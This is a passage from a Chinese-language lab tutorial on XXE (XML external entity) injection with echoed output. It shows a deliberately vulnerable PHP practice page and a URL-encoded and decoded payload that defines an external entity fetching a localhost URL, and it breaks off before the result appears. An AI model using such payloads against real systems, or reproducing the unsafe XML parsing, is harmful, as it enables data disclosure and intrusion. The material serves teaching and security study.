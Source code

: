 ### 1. 有回显的注入

1. php 靶场的源代码为：

    ```php+HTML
    <?php
    $string_xml = '<?xml version="1.0" encoding="utf-8"?><note><to>George</to><from>John</from><heading>Reminder</heading><body>xml实体注入</body></note>';
    $xml = isset($_POST['xml'])?$_POST['xml']:$string_xml;
    $data = simplexml_load_string($xml);
    echo  '<meta charset="UTF-8">';
    print_r($data);
    ?>
    ```

2. 进入后界面如下：

    ![image-20220517202533002](XXE/image-20220517202533002.png)

3. 根据靶场的源代码，可以看出通过 xml 参数，以 POST 方法传递过去并交给方法 `simple_load_string()` 执行。

4. 这里抓包，然后传入 payload，具体 payload 如下（POST 也要进行 URL 编码）：

    ```xml-dtd
    xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C!DOCTYPE%20a%20%5B%3C!ENTITY%20b%20SYSTEM%20%22http%3A%2F%2Flocalhost%2Fxxe02.php%22%3E%5D%3E%3Ca%3E%26b%3B%3C%2Fa%3E
    ```

    这里对 payload 进行 url-encode，未编码前的 payload 为（换行符没有编码，这里只是为了方便查看）：

    ```xml-dtd
    xml=
    <?xml version="1.0"?>
    <!DOCTYPE a [
        <!ENTITY b SYSTEM "http://localhost/xxe02.php">
        ]>
    <a>&b;</a>
    ```

    这里调用了**实体 b**，然后被打印出来。

5. 这里上传成功后，显示的结果为：
